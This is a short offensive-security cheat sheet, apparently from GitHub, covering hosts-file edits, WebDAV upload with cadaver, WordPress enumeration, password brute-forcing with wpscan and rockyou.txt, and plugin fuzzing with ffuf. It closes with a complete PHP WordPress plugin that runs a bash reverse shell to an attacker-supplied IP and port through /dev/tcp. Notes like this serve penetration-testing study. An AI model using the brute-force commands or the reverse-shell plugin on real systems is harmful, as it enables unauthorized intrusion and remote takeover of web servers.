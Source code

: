 ### DNS Records

Adding DNS record to `/etc/hosts` file:
```
sudo sh -c 'echo "<<SERVER_IP>>  company.com" >> /etc/hosts'
```

### WebDAV

**Connect to the `WebDav`server**
```
cadaver <<IP>>
```

```
dav:/> ls
dav:/> put <<FILE>>
```

### Wordpress

#### wpscan

```
wpscan --url <<IP>> --rua -e ap,at,tt,cb,dbe,u,m
```

**Plugins oriented**
```
wpscan --url <<URL>> --detection-mode aggressive --plugins-detection aggressive
```

**Brute-Force users**
```
wpscan --url <<URL>> -U users.txt -P /usr/share/wordlists/rockyou.txt
```

#### Fuzzing Wordpress Plugins

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt -u <<URL>> -ic
```

#### Wordpress Plugin RCE

Zip up this php file then upload and activate plugin. Wait for reverse shell. 

```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/<<IP>>/<<PORT>> 0>&1'");
?>
```
